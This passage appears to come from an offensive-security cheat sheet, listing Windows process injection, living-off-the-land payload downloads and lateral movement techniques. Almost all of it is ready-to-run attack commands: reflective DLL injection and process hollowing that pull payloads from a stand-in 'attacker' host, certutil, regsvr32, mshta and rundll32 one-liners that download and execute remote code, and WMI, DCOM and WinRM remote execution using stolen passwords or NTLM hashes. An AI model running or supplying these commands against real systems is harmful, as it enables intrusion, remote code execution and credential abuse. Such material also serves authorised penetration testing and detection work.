 #### **Process Injection**
```powershell
# Reflective DLL Injection
Invoke-ReflectivePEInjection -PEUrl http://attacker/payload.dll -ProcName explorer

# Process Hollowing
Start-Process notepad.exe -WindowStyle Hidden
Invoke-ProcessHollowing -Processname notepad.exe -PayloadURL http://attacker/payload.exe
```

#### **Living Off The Land**
```bash
# LOLBAS techniques
certutil -urlcache -split -f http://attacker/payload.exe payload.exe
regsvr32 /s /n /u /i:http://attacker/payload.sct scrobj.dll
mshta http://attacker/payload.hta
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://attacker/payload.sct")
```

### **🕷️ Advanced Lateral Movement**

#### **WMI Lateral Movement**
```bash
# Linux - impacket
wmiexec.py domain.com/user:pass@target
wmiexec.py -hashes :NTLM_HASH domain.com/user@target

# Windows
wmic /node:target /user:domain\user /password:pass process call create "cmd.exe /c <command>"
Invoke-WmiMethod -ComputerName target -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c <command>"
```

#### **DCOM Lateral Movement**
```bash
# Linux
dcomexec.py domain.com/user:pass@target
dcomexec.py -hashes :NTLM_HASH domain.com/user@target

# Windows
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "target"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c <command>", "7")
```

#### **WinRM Lateral Movement**
```bash
# Linux
evil-winrm -i target -u user -p password
evil-winrm -i target -u user -H NTLM_HASH

# Windows
Enter-PSSession -ComputerName target -Credential $cred
Invoke-Command -ComputerName target -Credential $cred -ScriptBlock {<command>}
```
